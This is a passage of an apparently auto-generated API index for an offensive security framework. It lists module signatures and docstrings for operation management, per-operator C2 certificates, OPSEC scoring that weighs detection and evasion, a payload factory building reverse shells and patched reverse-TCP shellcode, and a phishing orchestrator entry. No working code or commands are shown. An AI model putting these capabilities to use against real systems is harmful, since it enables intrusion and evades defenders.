- `dispatch` (line 244) `def dispatch(self, message, channels)` - *Fan out to eligible channels and journal deliveries.*
- `flush_digest` (line 260) `def flush_digest(self, max_age_sec)` - *Emit one digest per channel when due (default 30m, LAZY parity).*
- `redirect_request` (line 159) `def redirect_request(self, req, fp, code, msg, headers, newurl)`

#### `nuclei_templates_sync.py`
**Path:** `modules/nuclei_templates_sync.py`
**File Doc:** *Sync community Nuclei template collections into the LazyOwn marketplace.  Clones each registered source into a temporary staging directory, removes every ``.git`` trace to avoid mixed-repository contamination, then replaces the canonical destination with the fresh working tree.  New template collections are registered in ``SOURCES`` (skill ``/marketplace-contributor`` Step 4c). Single-file tools, implants, and runnable scanners are NOT sources here; they ship as plain lazyaddons.  Usage: python3 nuclei_templates_sync.py python3 nuclei_templates_sync.py --source nuclei-templates --refresh-existing python3 nuclei_templates_sync.py --source nuclei-templates --dest ~/nuclei-templates*

**Functions:**
- `repo_root` (line 39) `def repo_root()` - *Return the LazyOwn repository root derived from this file location.

Returns:
    Repository root path (parent of the ``modules/`` directory).*
- `canonical_dest` (line 48) `def canonical_dest(subdir)` - *Return the canonical marketplace destination for a source.

Args:
    subdir: Source subdirectory under ``external/.exploit``.

Returns:
    ``<repo>/external/.exploit/<subdir>`` path.*
- `run` (line 60) `def run(argv, cwd)` - *Run a subprocess capturing output as text without raising.

Args:
    argv: Command and arguments to execute.
    cwd: Optional working directory.

Returns:
    Completed process handle with captured stdout and stderr.*
- `ensure_git_available` (line 73) `def ensure_git_available()` - *Abort with a clear message when the git binary is missing.

Raises:
    SystemExit: Always raised with code 1 when git is not on PATH.*
- `clone_templates` (line 84) `def clone_templates(repo, staging)` - *Shallow-clone the template repository into the staging directory.

Args:
    repo: Git URL of the template collection.
    staging: Empty staging directory that receives the clone.

Returns:
    Tuple of the cloned tree path and its HEAD commit hash.

Raises:
    SystemExit: Raised with code 1 when the clone fails.*
- `strip_git_traces` (line 113) `def strip_git_traces(tree)` - *Remove every .git file or directory under the staged tree.

Args:
    tree: Staged working tree to clean.

Returns:
    Number of .git traces removed.*
- `count_templates` (line 132) `def count_templates(tree)` - *Count Nuclei template files under a directory tree.

Args:
    tree: Directory tree to scan.

Returns:
    Number of ``*.yaml`` files found.*
- `replace_dest` (line 144) `def replace_dest(src, dest, expected)` - *Atomically replace the destination with the staged tree contents.

Args:
    src: Staged clean tree acting as the source.
    dest: Destination directory to replace.
    expected: Expected destination directory name guard.

Raises:
    SystemExit: Raised with code 1 when the destination name guard fails
        or the staged tree holds fewer templates than expected.*
- `same_remote` (line 168) `def same_remote(path, repo)` - *Check whether an existing clone points at the expected remote.

Args:
    path: Local clone to inspect.
    repo: Expected upstream repository URL.

Returns:
    True when the clone origin matches the expected remote.*
- `refresh_existing_clone` (line 188) `def refresh_existing_clone(path, repo)` - *Fast-forward an existing clean clone of the same remote.

Args:
    path: Local clone candidate.
    repo: Expected upstream repository URL.

Returns:
    True when the clone was fast-forwarded successfully.*
- `validate_subset` (line 209) `def validate_subset(dest, subset)` - *Validate a template subset with the nuclei binary when available.

Args:
    dest: Destination directory holding the synced templates.
    subset: Relative subset directory to validate.

Returns:
    True on success, False on validation failure, None when the nuclei
    binary or the subset directory is unavailable.*
- `build_parser` (line 238) `def build_parser()` - *Build the command line parser for the sync script.

Returns:
    Configured argument parser.*
- `sync` (line 263) `def sync(name, repo, dest, refresh_existing, skip_validate)` - *Clone, clean, and install one template source.

Args:
    name: Registered source name.
    repo: Template collection git URL.
    dest: Destination directory to replace.
    refresh_existing: Fast-forward existing clean clones as well.
    skip_validate: Skip the nuclei validation step.

Returns:
    Summary dictionary with source, commit, counts, destination,
    refreshed clones, removed git traces, and validation outcome.*
- `resolve_plan` (line 308) `def resolve_plan(args)` - *Resolve the requested sources into (name, repo, dest) work items.

Args:
    args: Parsed command line arguments.

Returns:
    Work item list, one tuple per source to sync.

Raises:
    SystemExit: Raised with code 2 on unknown sources or overrides
        combined with multiple sources.*
- `main` (line 337) `def main(argv)` - *Entry point for the template sync script.

Args:
    argv: Optional argument list for testing.

Returns:
    Process exit code, 0 on success.*
- `normalize` (line 179) `def normalize(url)`

#### `obs_parser.py`
**Path:** `modules/obs_parser.py`
**File Doc:** *modules/obs_parser.py ====================== Observation parser: extracts structured findings from raw tool output.  Converts unstructured text (nmap, gobuster, crackmapexec, enum4linux, etc.) into typed Finding objects that the WorldModel can ingest directly.  Extractors are independent, additive, and follow Open/Closed: - Add a new extractor by subclassing Extractor and registering it. - Existing extractors are never modified to support new patterns.  Design ------ - Single Responsibility : each Extractor owns one finding type - Open/Closed           : new types via new Extractor subclass - Liskov                : all Extractor subclasses honour the same contract - Interface Segregation : consumers only see FindingType, Finding, Observation - Dependency Inversion  : ObsParser depends on Extractor abstraction  Usage ----- from modules.obs_parser import ObsParser  parser = ObsParser() obs    = parser.parse(nmap_output, host="10.10.11.78", tool="nmap")  for finding in obs.findings: print(finding.type, finding.value, finding.confidence)*

**Classes:**
- `FindingType` (line 50) `class FindingType(StrEnum)`
- `Finding` (line 66) `class Finding`
- `Observation` (line 76) `class Observation`
- `Extractor` (line 95) `class Extractor(ABC)` - *Base class for a single finding-type extractor.*
- `_ExtractorRegistry` (line 103) `class _ExtractorRegistry` - *Holds the ordered list of active Extractor instances.*
- `_IPExtractor` (line 127) `class _IPExtractor(Extractor)`
- `_CredentialExtractor` (line 145) `class _CredentialExtractor(Extractor)` - *Matches user:password patterns from tool output.*
- `_ServiceVersionExtractor` (line 193) `class _ServiceVersionExtractor(Extractor)` - *Extracts service name + version from nmap-style output.*
- `_PathExtractor` (line 219) `class _PathExtractor(Extractor)` - *Extracts URL paths from gobuster / ffuf / nikto output.*
- `_UsernameExtractor` (line 235) `class _UsernameExtractor(Extractor)` - *Extracts usernames from enum4linux / kerbrute / rpcclient output.*
- `_HashExtractor` (line 257) `class _HashExtractor(Extractor)` - *Extracts NTLM and other hashes from tool output.*
- `_CVEExtractor` (line 283) `class _CVEExtractor(Extractor)` - *Extracts CVE identifiers from any output.*
- `_DomainExtractor` (line 299) `class _DomainExtractor(Extractor)` - *Extracts hostnames and domain names.*
- `_EmailExtractor` (line 318) `class _EmailExtractor(Extractor)` - *Extracts email addresses from tool output.*
- `_ErrorExtractor` (line 334) `class _ErrorExtractor(Extractor)` - *Detects error / failure indicators in output.*
- `_CloudIdentityExtractor` (line 355) `class _CloudIdentityExtractor(Extractor)` - *Extracts IAM roles, ARNs, and K8s resources from cloud tool output.*
- `_SuccessDetector` (line 390) `class _SuccessDetector` - *Heuristic: decide whether a tool output represents a successful execution.
Not a precise classifier — supplements the policy engine rather than replacing it.*
- `ObsParser` (line 423) `class ObsParser` - *Parses raw tool output into an Observation containing typed Findings.

Each registered Extractor runs independently. The order does not matter.
New extractors can be added via ObsParser.register(extractor).*

**Functions:**
- `get_parser` (line 500) `def get_parser()` - *Return (or create) the module-level singleton ObsParser.*
- `parse` (line 508) `def parse(output, host, tool)` - *Module-level convenience wrapper.*

**Methods:**
- `by_type` (line 83) `def by_type(self, ftype)`
- `has` (line 86) `def has(self, ftype)`
- `extract` (line 99) `def extract(self, text, host)` - *Return all findings of this type found in *text*.*
- `__init__` (line 106) `def __init__(self)`
- `register` (line 109) `def register(self, extractor)`
- `run_all` (line 112) `def run_all(self, text, host)`
- `extract` (line 134) `def extract(self, text, host)`
- `extract` (line 175) `def extract(self, text, host)`
- `extract` (line 198) `def extract(self, text, host)`
- `extract` (line 224) `def extract(self, text, host)`
- `extract` (line 245) `def extract(self, text, host)`
- `extract` (line 271) `def extract(self, text, host)`
- `extract` (line 288) `def extract(self, text, host)`
- `extract` (line 305) `def extract(self, text, host)`
- `extract` (line 323) `def extract(self, text, host)`
- `extract` (line 345) `def extract(self, text, host)`
- `extract` (line 367) `def extract(self, text, host)`
- `is_success` (line 407) `def is_success(self, text)`
- `__init__` (line 431) `def __init__(self)`
- `register` (line 450) `def register(self, extractor)` - *Register an additional Extractor (Open/Closed extension point).*
- `parse` (line 454) `def parse(self, output, host, tool)` - *Parse *output* and return an Observation.

Parameters
----------
output : raw text from a tool (nmap, gobuster, enum4linux, etc.)
host   : IP or hostname the tool was run against
tool   : tool name (for context only — does not affect extraction)*

#### `ooficesod0woodo.py`
**Path:** `modules/ooficesod0woodo.py`

*No symbols extracted*

#### `operation.py`
**Path:** `modules/operation.py`
**File Doc:** *Caldera-style operation lifecycle: create, start, pause, resume, stop, status.  Operations are persistent, time-bounded adversary emulations that wrap the existing :class:`modules.playbook_engine.PlaybookEngine` and bridge its output into the :class:`modules.world_model.WorldModel` and :class:`modules.obs_parser.ObsParser` fact store.  Each operation has: - A name and target - A list of steps (PlaybookStep from playbook_engine) - A status (planned, running, paused, completed, stopped, failed) - An event log (timeline) - A produced-facts index - A TTP coverage map (technique_id -> status)  Operations persist to ``sessions/operations/<id>.json`` so they survive shell restarts and can be resumed across shifts.*

**Classes:**
- `OperationStatus` (line 42) `class OperationStatus(StrEnum)`
- `OpEvent` (line 52) `class OpEvent`
- `OperationStep` (line 63) `class OperationStep`
- `Operation` (line 79) `class Operation`
- `OperationManager` (line 180) `class OperationManager` - *Persistent store and executor for Operation objects.*

**Functions:**
- `get_manager` (line 471) `def get_manager()` - *Return a fresh :class:`OperationManager`.*

**Methods:**
- `to_dict` (line 98) `def to_dict(self)`
- `from_dict` (line 116) `def from_dict(cls, d)`
- `save` (line 134) `def save(self)`
- `log_event` (line 143) `def log_event(self, step_index, step_name, status, summary, findings_count, error)`
- `record_facts` (line 164) `def record_facts(self, findings)`
- `__init__` (line 183) `def __init__(self)`
- `list` (line 187) `def list(self)` - *List all persisted operations.*
- `get` (line 199) `def get(self, op_id)`
- `create` (line 206) `def create(self, name, target, apt_name, description)` - *Create a new planned operation.*
- `plan_from_apt` (line 225) `def plan_from_apt(self, op, playbook_yaml_path)` - *Populate steps from an APT playbook YAML (or fall back to a derived MITRE playbook).

Args:
    op: The operation to populate.
    playbook_yaml_path: Path to a playbook YAML. If ``None``,
        derives a playbook from the MITRE STIX2 store.*
- `start` (line 287) `def start(self, op_id, executor)` - *Start or resume a planned operation.

Args:
    op_id: The operation ID.
    executor: Optional callable ``(command, host) -> output``.
        Defaults to a no-op for safe dry-runs.*
- `pause` (line 369) `def pause(self, op_id)`
- `resume` (line 378) `def resume(self, op_id, executor)`
- `stop` (line 386) `def stop(self, op_id)`
- `status` (line 396) `def status(self, op_id)` - *Return a structured status dict for an operation.*
- `timeline` (line 425) `def timeline(self, op_id)`
- `report` (line 431) `def report(self, op_id)`

#### `operator_profiles.py`
**Path:** `modules/operator_profiles.py`
**File Doc:** *Multi-operator profile management for LazyOwn team server.  Each operator gets an isolated profile directory with its own: - config (payload subset: lhost, lport, listeners) - generated TLS certificates (per-operator C2 identity) - command history and audit log  Design ------ - Profiles stored under ``sessions/operators/<username>/`` - Master ``payload.json`` is the team-wide baseline - Per-operator overrides in ``operator.json`` inside each profile - Certificates auto-generated on profile creation (CA + operator cert) - All actions attributed to the operator who performed them*

**Classes:**
- `OperatorProfile` (line 38) `class OperatorProfile` - *Per-operator configuration and state.*
- `OperatorProfileManager` (line 77) `class OperatorProfileManager` - *CRUD for operator profiles with certificate generation.

Usage::

    mgr = OperatorProfileManager()
    mgr.create_profile("grisun0", display_name="Gris Iscomeback")
    profile = mgr.load_profile("grisun0")
    mgr.set_attribute("grisun0", "elo", 1500)*

**Functions:**
- `get_operator_profile_manager` (line 398) `def get_operator_profile_manager()` - *Return the singleton :class:`OperatorProfileManager`.*

**Methods:**
- `to_dict` (line 57) `def to_dict(self)`
- `__init__` (line 88) `def __init__(self)`
- `_ensure_team_ca` (line 93) `def _ensure_team_ca(self)` - *Generate a team CA certificate if none exists.*
- `_profile_dir` (line 124) `def _profile_dir(self, username)`
- `_profile_path` (line 127) `def _profile_path(self, username)`
- `_generate_operator_cert` (line 130) `def _generate_operator_cert(self, username)` - *Generate per-operator TLS cert signed by team CA.

Returns:
    Tuple of (cert_path, key_path).*
- `create_profile` (line 192) `def create_profile(self, username, display_name, role, lhost, lport, listener_port, c2_port, c2_malleable_route, user_agent, attributes)` - *Create a new operator profile.

Args:
    username: Unique operator identifier.
    display_name: Human-readable name.
    role: RBAC role (``operator``, ``admin``, ``viewer``).
    lhost: Operator's C2 listener IP override.
    lport: Operator's reverse shell port override.
    listener_port: Operator's listener port override.
    c2_port: Operator's C2 dashboard port override.
    c2_malleable_route: Per-operator malleable route.
    user_agent: Per-operator user agent.
    attributes: Arbitrary key-value metadata.

Returns:
    The created :class:`OperatorProfile`.

Raises:
    ValueError: If the profile already exists.*
- `_save_profile` (line 255) `def _save_profile(self, profile)`
- `load_profile` (line 260) `def load_profile(self, username)` - *Load an operator profile.

Returns:
    :class:`OperatorProfile` or None.*
- `update_profile` (line 276) `def update_profile(self, username)` - *Update fields on an existing profile.*
- `delete_profile` (line 289) `def delete_profile(self, username)` - *Delete an operator profile and its directory.*
- `list_profiles` (line 300) `def list_profiles(self)` - *Return all operator profiles.*
- `touch_activity` (line 312) `def touch_activity(self, username)` - *Update last_active timestamp.*
- `set_attribute` (line 319) `def set_attribute(self, username, key, value)` - *Set a custom attribute on an operator profile.*
- `get_attribute` (line 328) `def get_attribute(self, username, key, default)` - *Get a custom attribute from an operator profile.*
- `log_action` (line 335) `def log_action(self, username, action, details)` - *Append an audited action to the operator's audit log.

Args:
    username: Operator identifier.
    action: Action name (e.g. ``"issue_command"``, ``"modify_config"``).
    details: Optional structured context.*
- `effective_config` (line 360) `def effective_config(self, username)` - *Merge team baseline (payload.json) with per-operator overrides.

Operator-specific fields (lhost, lport, listener_port, c2_port,
c2_malleable_route, user_agent) take precedence over the team
baseline. All other fields come from the team config.

Args:
    username: Operator identifier.

Returns:
    Merged configuration dict.*

#### `opsec_scorer.py`
**Path:** `modules/opsec_scorer.py`
**File Doc:** *OPSEC scoring engine — pre-execution noise assessment and gated scoring.  Single contract module for every OPSEC evaluation in the framework. It exposes two complementary scorers that share one set of risk primitives:  - :class:`OpsecScorer` — lightweight pre-execution noise assessment that returns a :class:`OpsecScore` with a plain-text risk label. Used for advisory warnings before running a command.  - :class:`OpsecScorerV2` — real-time, context-aware scoring with action gating (allow / warn / confirm / block) and session trend tracking. Returns a :class:`GatedOpsecScore`.  Both share the risk-threshold mapping (see :func:`_risk_bucket`), so the noise-to-risk translation is defined exactly once. The two command tables — :data:`COMMAND_NOISE` and :data:`COMMAND_RISK_PROFILES` — remain distinct by design: the former drives advisory noise scoring while the latter drives gating with its own threat model and extra exfiltration payload profiles.  Usage: from modules.opsec_scorer import OpsecScorer, OpsecScorerV2, OpsecContext  scorer = OpsecScorer(payload) score = scorer.score("secretsdump", rhost="10.10.11.5")  gated = OpsecScorerV2(context=OpsecContext(killchain_phase="credential_access")) assessment = gated.assess("mimikatz")*

**Classes:**
- `RiskLevel` (line 170) `class RiskLevel(IntEnum)` - *OPSEC risk levels ordered by severity.*
- `GateAction` (line 180) `class GateAction(IntEnum)` - *Action gating decisions for command execution.*
- `OpsecContext` (line 232) `class OpsecContext` - *Real-time operational context for gated OPSEC scoring.

Attributes:
    killchain_phase: Current phase (recon, scan, enum, exploit, etc.).
    rhost: Target IP address.
    target_environment: Target environment type.
    access_level: Current access level on target.
    edr_detected: Whether EDR/AV was detected on target.
    siem_detected: Whether SIEM/correlation was observed.
    time_window: Operation time window.
    credential_type: Type of credentials in use.
    is_privileged: Whether running as privileged user on target.
    evasion_active: Whether evasion measures are active.
    artifacts_created: Count of artifacts left so far.
    session_uptime_minutes: Minutes since session start.*
- `OpsecScore` (line 265) `class OpsecScore` - *Advisory OPSEC assessment for a single command.

Attributes:
    command: Command being assessed.
    noise_score: 0-10 noise rating.
    detection_risk: Human-readable detection risk label.
    risk_level: Plain-text risk label (low/medium/high/critical).
    confidence: 0-1 confidence in the assessment.
    detectable_by: Detection systems that may observe the command.
    mitigation: Suggested mitigations.
    recommendation: Human-readable guidance.*
- `GatedOpsecScore` (line 303) `class GatedOpsecScore` - *Context-aware, gated OPSEC assessment for a single command.

Attributes:
    command: Command being assessed.
    risk_level: Numeric risk level.
    risk_label: Human-readable risk label.
    noise_score: 0-10 noise rating.
    detection_surface: Detection systems triggered.
    gate_action: Whether to allow, warn, confirm, or block.
    mitigations: Suggested mitigations ranked by effectiveness.
    alternative_commands: Lower-noise alternatives if available.
    explanation: Human-readable rationale for the score.
    timestamp: Unix timestamp of the assessment.*
- `OpsecScorer` (line 331) `class OpsecScorer` - *Pre-execution OPSEC evaluator for LazyOwn commands.

Scores commands on base noise, phase-appropriate tool usage, target
sensitivity, evasion status, and detection tool coverage.

Attributes:
    payload: Configuration dict from payload.json.
    world_model: Optional world model for target context.
    evasion_active: Whether any evasion mechanism is enabled.*
- `OpsecScorerV2` (line 559) `class OpsecScorerV2` - *Real-time OPSEC scoring engine with action gating.

Evaluates each command against the current operational context,
producing a :class:`RiskLevel` and :class:`GateAction`.

Attributes:
    context: Current operational context.
    score_history: Chronological list of past scores for trend analysis.
    risk_threshold: Maximum allowed risk before blocking.
    environment_profiles: Predefined risk profiles per target type.*

**Functions:**
- `_risk_bucket` (line 189) `def _risk_bucket(noise)` - *Return a zero-based severity bucket (0..3) for a 0-10 noise score.

Args:
    noise: A clamped 0-10 noise value.

Returns:
    0 for low, 1 for medium, 2 for high, 3 for critical.*
- `_risk_label` (line 207) `def _risk_label(noise)` - *Return the human-readable risk label for a noise score.

Args:
    noise: A clamped 0-10 noise value.

Returns:
    One of ``low``, ``medium``, ``high``, ``critical``.*
- `_risk_level` (line 219) `def _risk_level(noise)` - *Return the :class:`RiskLevel` enum value for a noise score.

Args:
    noise: A clamped 0-10 noise value.

Returns:
    The matching :class:`RiskLevel`, never ``NONE`` for a scored command.*
- `score_command` (line 811) `def score_command(command, payload, rhost)` - *Convenience function: score a single command without creating a scorer instance.

Args:
    command: LazyOwn command to evaluate.
    payload: Configuration dict (loaded from payload.json if None).
    rhost: Target IP for sensitivity.

Returns:
    OpsecScore dataclass instance.*

**Methods:**
- `to_dict` (line 288) `def to_dict(self)` - *Return the score serialized as a plain dictionary.*
- `__init__` (line 343) `def __init__(self, payload, world_model)`
- `evasion_active` (line 352) `def evasion_active(self)`
- `traffic_morphing_active` (line 357) `def traffic_morphing_active(self)`
- `score` (line 365) `def score(self, command, rhost, phase_override)` - *Score an OPSEC risk for ``command`` against ``rhost``.

Args:
    command: LazyOwn command alias to evaluate.
    rhost: Target IP for sensitivity analysis.
    phase_override: Force a phase context (default: from world_model).

Returns:
    OpsecScore with risk assessment and recommendations.*
- `score_batch` (line 413) `def score_batch(self, commands, rhost)` - *Score multiple commands and return {command: OpsecScore}.*
- `suggest_mitigations` (line 417) `def suggest_mitigations(self, command, detectable_by)` - *Return mitigation suggestions for a given command.*
- `_estimate_noise` (line 426) `def _estimate_noise(self, command)` - *Heuristically estimate noise for unknown commands.*
- `_phase_mismatch_penalty` (line 448) `def _phase_mismatch_penalty(self, tool_phase, override)`
- `_target_sensitivity_bonus` (line 470) `def _target_sensitivity_bonus(self, rhost)`
- `_get_host_purpose` (line 479) `def _get_host_purpose(self, rhost)`
- `_evasion_reduction` (line 498) `def _evasion_reduction(self, detectable)`
- `_gather_mitigations` (line 510) `def _gather_mitigations(self, detectable, noise)`
- `_noise_to_risk` (line 527) `def _noise_to_risk(noise)` - *Return the plain-text risk label for a noise score.*
- `_detection_risk_label` (line 532) `def _detection_risk_label(detectable, noise)`
- `_build_recommendation` (line 544) `def _build_recommendation(risk_level, mitigations)`
- `__init__` (line 617) `def __init__(self, context)`
- `assess` (line 622) `def assess(self, command, extra_context)` - *Assess OPSEC risk for a command in the current context.

Args:
    command: The command string to evaluate.
    extra_context: Additional context overrides.

Returns:
    GatedOpsecScore with risk assessment and gating decision.*
- `should_allow` (line 696) `def should_allow(self, command)` - *Quick gating check - returns (allowed, score).

Args:
    command: Command string to check.

Returns:
    Tuple of (is_allowed: bool, assessment: GatedOpsecScore).*
- `get_trend` (line 709) `def get_trend(self)` - *Analyze OPSEC risk trend over the session.

Returns:
    Dict with trend data: escalating, stable, or improving.*
- `_noise_to_risk` (line 739) `def _noise_to_risk(noise)` - *Return the RiskLevel enum for a noise score.*
- `_risk_to_gate` (line 743) `def _risk_to_gate(self, risk)`
- `_generate_mitigations` (line 753) `def _generate_mitigations(noise, detects)`
- `_find_alternatives` (line 777) `def _find_alternatives(cmd)`
- `_build_explanation` (line 796) `def _build_explanation(cmd, noise, detects, gate)`

#### `orchestrator_config.py`
**Path:** `modules/orchestrator_config.py`
**File Doc:** *Operator configuration for the loop core: pipeline stages and auto verbs.  Single source of truth for *what the orchestrator fires* and *which auto verbs it may propose or execute*. Defaults live here; operator overrides persist under ``payload.json`` -> ``orchestrator`` so the TUI, the engine and the registry always read the same merged view.  Layout of the payload section::  { "orchestrator": { "stages": {"compact": {"enabled": false}}, "auto_verbs": { "automsf": {"enabled": false}, "myscan": {"enabled": true, "keywords": ["myscan"], "needs_target": true, "description": "custom verb"} } } }*

**Functions:**
- `_invalidate` (line 74) `def _invalidate()` - *Drop the merged-view cache after a write.*
- `_payload` (line 82) `def _payload()` - *Load the live payload mapping (empty on failure).*
- `_section` (line 92) `def _section(payload)` - *Return the ``orchestrator`` payload section.*
- `_save` (line 97) `def _save(payload)` - *Persist the payload through core.config and refresh the cache.*
- `stages` (line 105) `def stages()` - *Merged stage view: enabled flag, label and firing condition.*
- `stage_enabled` (line 130) `def stage_enabled(name)` - *Return whether one pipeline stage is enabled (unknown = enabled).*
- `set_stage` (line 136) `def set_stage(name, enabled)` - *Persist the enabled flag of one stage.

Args:
    name: Stage identifier from :data:`STAGE_DEFS`.
    enabled: New flag.

Returns:
    The updated merged stage view for that stage.

Raises:
    KeyError: Unknown stage name.*
- `effective_verbs` (line 161) `def effective_verbs()` - *Merged auto-verb view: built-ins plus operator overrides and additions.

Each entry carries ``name``, ``enabled``, ``phases``, ``keywords``,
``needs_target``, ``extra_args``, ``description`` and ``source``
(``builtin`` or ``custom``).*
- `verb_config` (line 218) `def verb_config(name)` - *Return the merged configuration of one auto verb, or None.*
- `verb_enabled` (line 227) `def verb_enabled(name)` - *Return whether one auto verb may be proposed or executed.*
- `upsert_verb` (line 233) `def upsert_verb(name)` - *Create or update one auto-verb override in the payload.

Args:
    name: Verb (must match an existing shell command when custom).
    enabled: New enabled flag.
    keywords: Intent/goal signals selecting the verb.
    phases: Kill-chain phases the verb serves.
    needs_target: Whether the built line carries the loop target.
    extra_args: Fixed tail args appended after the target.
    description: Operator-facing note.
    custom: Mark as a new operator-defined verb.

Returns:
    The merged entry after persisting.

Raises:
    ValueError: Empty verb name.*
- `remove_verb` (line 290) `def remove_verb(name)` - *Remove a custom verb, or disable a built-in one.

Returns:
    True when something changed.*
- `reset` (line 315) `def reset()` - *Drop every orchestrator override (back to defaults).*

#### `osint_enrich.py`
**Path:** `modules/osint_enrich.py`
**File Doc:** *Keyless OSINT enrichment for finding evidence.  VirusTotal has no keyless API, so this module assembles the same answers from sources that need no API key at all:  - CVE advisories: OSV (https://api.osv.dev, no key, POST). - Exploited in the wild: CISA KEV catalog (public JSON feed, no key). - Exploit probability: EPSS scores from FIRST (https://api.first.org, no key). - Host intel: HackerTarget free endpoints + DNS-over-HTTPS + ip-api community rate limit (all keyless), urlscan.io public search (no key).  Every lookup is cached under ``sessions/osint_cache.json`` (7-day TTL, KEV catalog 24h) and fails silent: enrichment must never break the loop. Stdlib only (urllib).*

**Functions:**
- `_cache_path` (line 47) `def _cache_path(sessions_dir)` - *Return the OSINT disk-cache path for a sessions directory.*
- `_cache_load` (line 52) `def _cache_load(sessions_dir)` - *Load the cache, tolerating missing or corrupt files.*
- `_cache_save` (line 61) `def _cache_save(sessions_dir, data)` - *Persist the cache best-effort.*
- `_cached` (line 69) `def _cached(sessions_dir, key, ttl)` - *Return a fresh cached entry, else None.*
- `_store` (line 77) `def _store(sessions_dir, key, data)` - *Store one cache entry.*
- `_get_json` (line 84) `def _get_json(url, params)` - *GET a JSON document, returning None on any failure.*
- `_post_json` (line 96) `def _post_json(url, payload)` - *POST a JSON document, returning the decoded response or None.*
- `_get_text` (line 110) `def _get_text(url, params)` - *GET a plain-text document, returning None on any failure.*
- `cve_lookup` (line 122) `def cve_lookup(cve_id, sessions_dir)` - *Assemble OSV advisory + KEV flag + EPSS score for one CVE id.*
- `reverse_dns` (line 161) `def reverse_dns(ip, sessions_dir)` - *Best-effort PTR hostname for an IP (HackerTarget, then DoH).*
- `host_geo` (line 183) `def host_geo(ip, sessions_dir)` - *Country/org/ISP for an IP via the keyless ip-api endpoint.*
- `domain_exposure` (line 198) `def domain_exposure(domain, sessions_dir)` - *Count public urlscan.io results for a domain (no key needed).*
- `enrich_evidence` (line 213) `def enrich_evidence(items, sessions_dir)` - *Append keyless OSINT verdicts to CVE mentions inside evidence items.*

#### `payload_factory.py`
**Path:** `modules/payload_factory.py`
**File Doc:** *Native payload generation framework — stagers, stages, singles, formats.  Provides a ``PayloadFactory`` that can generate payloads for multiple platforms and architectures without depending on ``msfvenom``. Supports a ``show payloads`` catalog and a ``generate`` command modelled on Metasploit's ``generate`` workflow.  Payloads are registered as ``PayloadTemplate`` instances with metadata (name, platform, arch, description, options) and a ``generate()`` method.  Dynamic shellcode patching is supported for reverse-TCP payloads: the ``ShellcodePayload`` class replaces known IP / port placeholders inside embedded templates at generation time, removing the need for msfvenom on the most common combos.*

**Classes:**
- `PayloadTemplate` (line 216) `class PayloadTemplate(ABC)` - *Base class for a registered payload template.

Subclasses must implement :meth:`generate` which returns raw bytes.*
- `ReverseShellPayload` (line 251) `class ReverseShellPayload(PayloadTemplate)` - *Generate a reverse shell one-liner for various interpreters.*
- `WindowsReverseShellPayload` (line 290) `class WindowsReverseShellPayload(PayloadTemplate)` - *Generate a Windows reverse shell one-liner (PowerShell).*
- `MsfvenomPayload` (line 322) `class MsfvenomPayload(PayloadTemplate)` - *Proxy to ``msfvenom`` for payloads we don't natively support.*
- `ShellcodePayload` (line 363) `class ShellcodePayload(PayloadTemplate)` - *Generate raw shellcode bytes from an embedded template.

When ``lhost`` and ``lport`` are both provided, the shellcode is
dynamically patched: known IP / port placeholder byte sequences inside
the template are replaced with the caller's values so the resulting
blob connects back to the correct listener.*
- `DynamicShellcodePayload` (line 409) `class DynamicShellcodePayload(PayloadTemplate)` - *Generate shellcode entirely at runtime — no static template needed.

The ``builder`` callable receives ``(lhost, lport)`` and must return
the complete position-independent shellcode as ``bytes``.*
- `PayloadFactory` (line 457) `class PayloadFactory` - *Registry and generator for payload templates.

Provides a catalogue of built-in payloads and falls through to
``msfvenom`` for Metasploit payloads when available.*

**Functions:**
- `_build_linux_x64_reverse_tcp` (line 118) `def _build_linux_x64_reverse_tcp(lhost, lport)` - *Generate a fresh, null-free Linux x86-64 reverse-TCP shellcode.

Uses the socket-connect-dup2-execve syscall sequence.  IP and port
are XOR-encoded at generation time so the blob contains no ``\x00``
bytes regardless of the chosen listener address.

Args:
    lhost: IPv4 address for the listener.
    lport: TCP port for the listener (1--65535).

Returns:
    Raw null-free position-independent shellcode bytes (~110 bytes).*
- `_patch_shellcode_x64` (line 190) `def _patch_shellcode_x64(raw, lhost, lport)` - *Replace IP and port placeholders inside a Windows x64 reverse-TCP
shellcode template.

The x64 template carries an 8-byte sequential placeholder
``\x01..\x08`` inside a ``mov rdx, imm64`` that encodes the
``sockaddr_in`` structure, and a 4-byte ``\x42\x42\x42\x42``
marker for the port check that follows.

Args:
    raw: The raw shellcode bytes (from ``_parse_escaped_hex``).
    lhost: IPv4 address to replace the placeholder with.
    lport: TCP port.

Returns:
    Patched shellcode bytes.*
- `_parse_escaped_hex` (line 442) `def _parse_escaped_hex(escaped)`
- `format_payload_table` (line 672) `def format_payload_table(payloads)` - *Format a list of payload dicts as an aligned table.

Args:
    payloads: List of payload metadata dicts from
        :meth:`PayloadFactory.list`.

Returns:
    Multi-line string with aligned columns.*

**Methods:**
- `__init__` (line 222) `def __init__(self, name, platform, arch, description, options)`
- `generate` (line 237) `def generate(self)` - *Generate the raw payload bytes.*
- `to_dict` (line 241) `def to_dict(self)`
- `__init__` (line 254) `def __init__(self)`
- `generate` (line 272) `def generate(self)`
- `__init__` (line 293) `def __init__(self)`
- `generate` (line 305) `def generate(self)`
- `__init__` (line 325) `def __init__(self, name, platform, arch)`
- `generate` (line 337) `def generate(self)`
- `__init__` (line 374) `def __init__(self, name, platform, arch, description, escaped_hex, patcher)`
- `generate` (line 397) `def generate(self)` - *Return the shellcode, optionally patching LHOST / LPORT.*
- `__init__` (line 416) `def __init__(self, name, platform, arch, description, builder)`
- `generate` (line 436) `def generate(self)`
- `__init__` (line 464) `def __init__(self)`
- `_register_builtins` (line 468) `def _register_builtins(self)`
- `register` (line 512) `def register(self, template)` - *Register a custom payload template.*
- `list` (line 516) `def list(self, platform)` - *List all registered payloads, optionally filtered by platform.*
- `get` (line 525) `def get(self, name)` - *Get a payload template by name.*
- `generate` (line 529) `def generate(self, name, format, output)` - *Generate a payload by name.

If the payload is not registered natively, attempts
``msfvenom``.

Args:
    name: Payload name (e.g. ``cmd/unix/reverse_shell``).
    format: Output format (``raw``, ``py``, ``ps1``, ``c``,
        ``hex``, ``base64``, ``exe``, ``elf``, etc.).
    output: Optional file path to write the payload.
    **kwargs: Payload-specific options (lhost, lport, etc.).

Returns:
    Raw payload bytes.*
- `_apply_format` (line 575) `def _apply_format(data, fmt)` - *Convert raw bytes to the requested output format.*
- `list_formats` (line 664) `def list_formats()` - *List all available output formats.*

#### `phishing_orchestrator.py`
**Path:** `modules/phishing_orchestrator.py`
